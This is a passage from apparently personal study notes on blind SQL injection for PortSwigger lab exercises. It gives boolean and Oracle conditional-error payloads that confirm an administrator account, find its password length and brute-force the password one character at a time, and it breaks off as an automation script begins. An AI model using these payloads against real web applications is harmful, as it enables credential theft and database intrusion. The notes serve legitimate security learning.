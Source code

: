 		Notice the `rownum`. If we don't use it, then we'll got more than 1 result and we'll break the concatenation.

- Confirm that a record exist  

  		' AND (SELECT 'a' FROM users WHERE username='administrator')='a

- Get the password (or other value) length of a specific record

		' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

	- The result of the above command should be true. Then we can increment the `length` value by one, until the result is false. s

- Brute force the password or any other value of a specific record
	- Use `ZAP` or `Python` to automate the request below.
	- The payload marker should be on the `a` at the end of the request.
	- Then we just need to cycle through every letter.

			' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

	- Once we've found the first character, then we can increment the substring value.

			' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
***
### Conditional Errors Method  
https://portswigger.net/web-security/sql-injection/cheat-sheet

- Verify that the conditional method works (Oracle)

		SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual

	- With a `concat` type of attack

			'||(SELECT CASE WHEN (1=0) THEN to_char(1/0) ELSE NULL END FROM dual)||'

- Verify a username from a table with the conditional error method (Oracle and concat attack type)

		'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'

- Get password length for a specific username using conditional error method (Oracle and concat attack type)

		'||(SELECT CASE WHEN length(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

- Get password for a specific username using conditional error method (Oracle and concat attack type)

		'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'

	- Example of script:

		```
		#!/usr/bin/fish

		set trueValue 21
		set password ''
